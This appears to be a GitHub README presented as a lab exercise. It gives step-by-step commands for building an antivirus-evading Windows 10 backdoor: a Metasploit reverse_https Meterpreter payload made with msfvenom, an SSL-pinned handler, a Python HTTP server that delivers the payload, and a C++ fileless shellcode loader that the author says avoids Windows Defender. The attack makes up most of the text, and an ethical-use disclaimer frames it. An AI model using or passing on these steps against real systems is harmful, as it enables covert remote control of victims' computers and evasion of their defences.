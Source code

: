 # Cyber Security
Cyber Security Lab Experiences by Fabio Felgueiras

Please note that this text contains references to potentially sensitive activities and materials.
It is important to use ethical hacking techniques responsibly and within legal boundaries.

In this example, i will demonstrate the use of Kali Linux 2023.2 to create a Windows 10 backdoor for ethical hacking purposes.

The following tools were utilized:
   -OpenSSL: Used to create the certificate.
   -msfconsole: Employed to create the listener and receive communication from the Windows machine.
   -msfvenom: Utilized to create the payload file.
   -Python: Used to create the HTTP server for payload delivery.
   -C++: Employed to create the Windows .exe file (backdoor.cpp).

or the coding of backdoor.cpp in C++, I referenced and customized code developed by TheD1rkMtr to suit my objectives. 
The code can be found at https://github.com/TheD1rkMtr/Shellcode-Hide/tree/main.

To ensure the executable is not detected as a virus, I combined the file SimpleLoader.cpp, which is flagged by Windows Defender and antivirus software, with the FilelessShellcode.cpp. This approach allows for the download of the payload on a remote machine, preventing detection. Additionally, SSL encryption with a custom certificate was implemented to secure the communication of the backdoor and prevent data detection.

It is essential to approach ethical hacking responsibly, adhering to legal frameworks and guidelines.

If you have any further questions or need clarification, feel free to ask!


Windows 10 Backdoor Creation

In Kali >

1- Download

    git clone https://github.com/Blive77/cybersecurity/
    cd cybersecurity
    
2- Compile backdoor.cpp

    x86_64-w64-mingw32-g++ --static -o backDoorTest.exe backdoor.cpp -fpermissive -lws2_32
      
3- Create custom SSL/TLS certificate 
    https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/meterpreter-paranoid-mode.html

    openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 \
    -subj "/C=US/ST=Texas/L=Austin/O=Development/CN=www.example.com" \
    -keyout www.example.com.key \
    -out www.example.com.crt && \
    cat www.example.com.key  www.example.com.crt > www.example.com.pem && \
    rm -f www.example.com.key  www.example.com.crt
    
      
4- Config the msfconsole Listener

    msfconsole
    use exploit/multi/handler
    set payload windows/x64/meterpreter/reverse_https
    set LHOST 0.0.0.0
    set LPORT 3333
    set HandlerSSLCert www.example.com.pem
    set StagerVerifySSLCert true
    set HandlerSSLCert /home/kali/cybersecurity/www.example.com.pem
    exploit
   
    
5- Create the Payload with msfvenom in Kali linux

   In my case:
   - Host IP= 192.168.235.132  
   - Host Port= 3333
   - Path To cert file= /home/kali/cybersecurity/www.example.com.pem
      
    msfvenom -p windows/x64/meterpreter/reverse_https lhost=(Host IP) lport=(Host Port) HandlerSSLCert=(Path To cert file) StagerVerifySSLCert=true -f raw > load.bin
    
   
6- Setup the http webserver for Payload deliver (important to do this in the same folder the payload was created)

    python -m http.server
    
In Windows >
    
1- Execute the File created in point (2) "backDoorTest.exe"
    
    backDoorTest.exe ( can be execute with paramters IP, Port and PayLoad File ) 
 
